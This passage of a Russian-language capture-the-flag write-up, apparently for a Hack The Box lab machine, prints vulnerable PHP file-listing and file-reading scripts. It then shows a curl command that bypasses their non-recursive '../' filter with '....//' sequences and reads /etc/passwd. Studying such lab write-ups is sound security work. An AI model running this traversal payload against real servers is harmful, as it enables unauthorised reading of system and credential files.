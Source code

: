```php
<?php

if($_SERVER['REQUEST_METHOD'] === "POST"){
        if(isset($_POST['path'])){
                header('Content-type: application/json');
                $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
                echo json_encode(scandir("/var/www/html/" . $_POST['path']));
        }else{
                header('Content-type: application/json');
                echo '[false]';
        }
}
```

Как и ожидалось, строка `"../"` заменяется пустотой `""`.

Теперь взглянем на исходники `fileRead.php`:
```text
root@kali:~# curl -s -X POST -d 'file=fileRead.php' http://10.10.10.87/fileRead.php | jq -r .'file'
```

```php
<?php


if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
                header('Content-Type: application/json');
                $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                if(strpos($_POST['file'], "user.txt") === false){
                        $file = fopen("/var/www/html/" . $_POST['file'], "r");
                        $fileContent['file'] = fread($file,filesize($_POST['file']));
                        fclose();
                }
        }
        echo json_encode($fileContent);
}
```

Такое же правило фильтрации *плюс* дополнительное ограничение: запрет на чтение файла `user.txt`. Не очень-то и хотелось, ибо вектор атаки напрашивается сам собой: функция `str_replace()` вызывается **не**рекурсивно, поэтому последовательность `"....//"` превратится в нужную нам `"../"` после того, как к ней будет применен описанный выше фильтр.

Таким образом, попробуем прочитать `/etc/passwd` для того, чтобы проверить теорию на практике:
```text
root@kali:~# curl -s -X POST -d 'file=....//....//....//etc/passwd' http://10.10.10.87/fileRead.php | jq -r .'file'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/bin/sh
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/spool/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
```